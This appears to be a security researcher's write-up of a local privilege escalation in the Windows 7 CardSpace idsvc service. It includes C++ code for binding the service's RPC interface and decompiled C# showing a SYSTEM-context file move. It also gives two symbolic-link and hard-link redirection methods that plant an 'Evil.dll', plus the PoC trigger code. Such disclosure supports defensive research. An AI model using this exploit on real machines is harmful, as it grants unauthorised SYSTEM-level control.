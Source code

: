 # Microsoft Windows 7 has a local privilege escalation vulnerability

```markdown
First, configure the environment variable [_NT_SYMBOL_PATH] with the following value:  
SRV*C:\symbols*http://msdl.microsoft.com/download/symbols/

Manually download symbols, symchk.exe is located in the windbg directory:  
```cmd
symchk.exe "C:\Windows\Microsoft.NET\Framework64\v3.0\Windows Communication Foundation\infocard.exe" /v
```

In RpcView tool, click Options -> Configure Symbols, and enter the following content (case-sensitive):  
```
srv*C:\symbols
```
![](https://github.com/xubeining/Cve_report/blob/main/OS1.png)

Use the tool to obtain three important data: the type of RPC protocol, the protocol name, and the client definition file of the protocol interface (compiled IDL-generated .c file, see the Decompilation textbox on the left). You can then bind the RPC service with the following method:

```cpp
BOOL StartRpcService()
{
	RPC_STATUS status;
	unsigned int cMinCalls = 1;
	RPC_BINDING_HANDLE v5;
	RPC_SECURITY_QOS SecurityQOS = {};
	RPC_WSTR StringBinding = nullptr;
	if (StartConnectingService())
	{
		// RPC protocol type and name
		status = RpcStringBindingComposeW(nullptr, L"ncalrpc", 0, L"31336F38236F3E2C6F3F2E6F20336F20236F21326F", nullptr, &StringBinding);
		if (status){
			printf("RpcStringBindingComposeW Failed:%d\n", status);
			return(status);
		}
		status = RpcBindingFromStringBindingW(StringBinding, &hBinding);
		RpcStringFreeW(&StringBinding);
		if (status){
			printf("RpcBindingFromStringBindingW Failed:%d\n", status);
			return(status);
		}
		SecurityQOS.Version = 1;
		SecurityQOS.ImpersonationType = RPC_C_IMP_LEVEL_IMPERSONATE;
		SecurityQOS.Capabilities = RPC_C_QOS_CAPABILITIES_DEFAULT;
		SecurityQOS.IdentityTracking = RPC_C_QOS_IDENTITY_STATIC;
		status = RpcBindingSetAuthInfoExW(hBinding, 0, 6u, 0xAu, 0, 0, (RPC_SECURITY_QOS*)&SecurityQOS);
		if (status){
			printf("RpcBindingSetAuthInfoExW Failed:%d\n", status);
			return(status);
		}
		// Bind interface
		status = RpcEpResolveBinding(hBinding, DefaultIfName_v1_0_c_ifspec);
		if (status){
			printf("RpcEpResolveBinding Failed:%d\n", status);
			return(status);
		}
	}
	else
	{
		printf("Start Connecting Windows Cardspace Service Failed");
		return 0;
	}
	return 0;
}
```

Through reverse-engineering the idsvc service code, the actual project is revealed (see related project). The idsvc service binds a global handler for the global RPC interface `RequestFactory.ProcessNewRequest`. For the first call (when `parentRequestHandle` is 0), it calls the `CreateClientRequestInstance` class to handle the callback. Subsequent operations are handled by `CreateUIAgentRequestInstance`.

```csharp
// Global handler for the global RPC interface
internal static int ProcessNewRequest(int parentRequestHandle, IntPtr rpcHandle, IntPtr inArgs, out IntPtr outArgs)
{
	...
	// First call
	if (parentRequestHandle == 0)
	{
		using (UIAgentMonitorHandle monitorHandle = new UIAgentMonitorHandle())
		{
			using (ClientRequest clientRequestInstance = RequestFactory.CreateClientRequestInstance(monitorHandle, structure.Type, rpcHandle, inStream, (Stream)outStream))
			{
				string extendedMessage;
				// After reflection, execute the instance's DoProcessRequest method to handle the request
				num = clientRequestInstance.DoProcessRequest(out extendedMessage);
				RpcResponse outArgs1;
				RequestFactory.ConvertStreamToIntPtr(outStream, out outArgs1);
				// Return result
				outArgs = outArgs1.Marshal();		
			}
		}
	}
}
```

The idsvc service reflects out the corresponding class to handle the callback according to the class name in `RpcRequest->Type`. In the PoC, the `"ManageRequest"` class is used:

```csharp
private static ClientRequest CreateClientRequestInstance(UIAgentMonitorHandle monitorHandle, string reqName, IntPtr rpcHandle, Stream inStream, Stream outStream)
{
	ClientRequest clientRequest = (ClientRequest)null;
	lock (RequestFactory.s_createRequestSync)
	{
		RequestFactory.RequestName request = RequestFactory.s_requestMap[reqName];
		if (-1 != Array.IndexOf<RequestFactory.RequestName>(RequestFactory.s_uiClientRequests, request))
		{
			Process contextMapping = ClientUIRequest.GetContextMapping(rpcHandle, true);
			InfoCardTrace.ThrowInvalidArgumentConditional(null == contextMapping, nameof(rpcHandle));
			WindowsIdentity executionIdentity = NativeMcppMethods.CreateServiceExecutionIdentity(contextMapping);
			InfoCardUIAgent agent = monitorHandle.CreateAgent(contextMapping.Id, executionIdentity, tSSession);
			switch (RequestFactory.s_requestMap[reqName])
			{
				// Here, the "ManageRequest" class is used
				case RequestFactory.RequestName.ManageRequest:
					clientRequest = (ClientRequest)new ManageRequest(contextMapping, executionIdentity, agent, rpcHandle, inStream, outStream);
					break;
			}
		}
	}
}
```

The `DoProcessRequest` function of the `ManageRequest` instance is triggered to handle the request. Skipping intermediate steps, it finally calls `StoreConnection.CreateDefaultDataSources()` which becomes the exploitation point. During interaction with the service, the service impersonates the client and retrieves the user's configuration file, by default under the `%APPDATA%` directory. For IIS users, a special case where the configuration file is not loaded by default, this must be enabled via: Application Pool -> Advanced Settings.
![](https://github.com/xubeining/Cve_report/blob/main/OS3.png)

```csharp
// Constructor
protected StoreConnection(WindowsIdentity identity)
{
	// identity here is the client identity
	this.m_identity = new WindowsIdentity(identity.Token);
	// Get user's environment variable %APPDATA%
	this.m_path = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), "Microsoft\\CardSpace\\");
	this.m_localSource = this.m_path + "CardSpaceSP2.db";
}
```

```csharp
protected virtual void CreateDefaultDataSources(Hashtable list)
{
	string str = this.m_path + "CardSpace.db";
	// Within using block, the service identity is used; upon leaving the block, impersonate client continues
	using (new SystemIdentity(true))
	{
		...
		if (File.Exists(str))
		{
			// Replace file, internal implementation uses File.MoveTo, etc.
			this.AtomicFileCopy(str, this.m_localSource);
		}
	}
}
```

```csharp
protected void AtomicFileCopy(string source, string destination)
{
	if (!File.Exists(source))
		return;
	// Add .atomic suffix, move file
	File.Copy(source, source + ".atomic", true);
	FileInfo fileInfo = new FileInfo(source + ".atomic");
	if (fileInfo.Length == 0L)
		return;
	fileInfo.MoveTo(destination);
}
```

The idsvc service switches back to its own identity using `new SystemIdentity(true)` and moves the user's configuration file via `AtomicFileCopy`. Under default configuration, files in the `%APPDATA%` directory are fully controllable by the current user. When a high-privilege process performs delete, move, copy, or attribute operations on files controllable by a low-privilege process, the latter can exploit this privilege to perform various operations.

James Forshaw (@tiraniddo) provides an open-source toolkit. His pioneering work on NTFS and Windows internals has implemented several exploitation methods and techniques that abuse high-privileged processes' file operations. The NTFS file system allows one user-controlled directory to be mounted into another (Mount Points and Junctions), symbolic links to point one file/directory to another (Reparse Points), and hard links to link a user-controllable file to a readable one, all potentially enabling high-privilege abuse.

In this PoC, the following two exploitation methods are available:

**Method 1: Mount Points and Hard Links (Windows 7 only)**  
(Does not work on Windows 10 due to Microsoft mitigations)

```text
C:\workspace\mountpoint -> C:\Users\Username\AppData\Local\Microsoft\CardSpace
Source file (Mount Point) = C:\workspace\mountpoint\CardSpace.db (Fake.dll) -> C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db
Target file (Hard Link) = C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db.atomic -> C:\Evil.dll
```

**Method 2: Symbolic Links to \RPC Control (works on Windows 10)**

```text
C:\Users\Username\AppData\Local\Microsoft\CardSpace -> \RPC Control
Source file = C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db -> \RPC Control\CardSpace.db
Target file = C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db.atomic -> \RPC Control\CardSpace.db.atomic
Source file = \RPC Control\CardSpace.db -> C:\Fake.dll
Target file = \RPC Control\CardSpace.db.atomic -> C:\Evil.dll
```
![](https://github.com/xubeining/Cve_report/blob/main/OS3.png)

According to Process Monitor, idsvc does not use impersonation while moving files, nor does it check for symbolic link attributes, which leads to an arbitrary file replacement privilege escalation vulnerability.

The following is the key PoC code:

```cpp
BOOL Exploit()
{
	RpcRequest* req = (RpcRequest*)CoTaskMemAlloc(sizeof(RpcRequest));
	req->Type = L"ManageRequest";
	req->Length = 0;
	req->Data = 0;
	RpcResponse* rep = (RpcResponse*)CoTaskMemAlloc(sizeof(RpcResponse));
	UINT32* ctx = 0;
	long ret = Proc0_RPCClientBindToService(hBinding, (void**)&ctx);
	printf("Proc0_RPCClientBindToService :%d\n", ret);
	ret = Proc2_RPCDispatchClientUIRequest((void**)&ctx, req, &rep);
	printf("Proc2_RPCDispatchClientUIRequest :%08x\n", ret);
	return 0;
}
```
